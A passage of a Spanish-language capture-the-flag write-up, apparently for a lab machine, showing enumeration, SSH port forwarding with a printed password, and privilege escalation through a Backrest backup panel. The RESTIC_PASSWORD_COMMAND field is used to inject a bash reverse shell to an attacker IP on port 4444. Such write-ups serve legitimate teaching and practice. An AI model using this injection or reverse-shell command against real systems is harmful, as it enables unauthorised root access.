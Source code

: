 ```bash

Started: Tue Sep  9 23:16:18 2025
Stopped: Tue Sep  9 23:20:54 2025
```

* Password: ** !@#$%^ **

> Al propagar las nuevas credenciales por ssh no conseguimos nada, volvemos a enumerar el host con el usuario gael

```bash
gael@artificial:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```
* Podemos ver un par de servidores locales en ejecucion en los puertos 9898 y 5000, adicionalmente algunos de los archivos que descargamos del backrest senalaron el puerto 9898

#### ssh Port forwarding

```bash
  ssh -L 8000:127.0.0.1:9898 -N -f gael@10.10.11.74
gael@10.10.11.74's password: mattp005numbertwo
```
Luego en el navegador podemos entrar a 127.0.0.1:8000 y tener acceso al servidor local. Al entrar vemos un formulario de login colocamos las credenciales de backrest_root.
En este punto nos encontramos con un panel administrativo que se encarga de los backups como si fuera un cms.

1. Creamos un repo y en el input de variables de entorno configuramos la variable **`RESTIC_PASSWORD_COMMAND=bash -c "bash -i >& /dev/tcp/10.10.14.218/4444 0>&1"`**

> El resto de las variables no son reelevantes.. se llenan las obligatorias 

2. Con el receptor activo en el puerto 4444 clickeamos en el button submit y obtenemos el reverse shell como root.
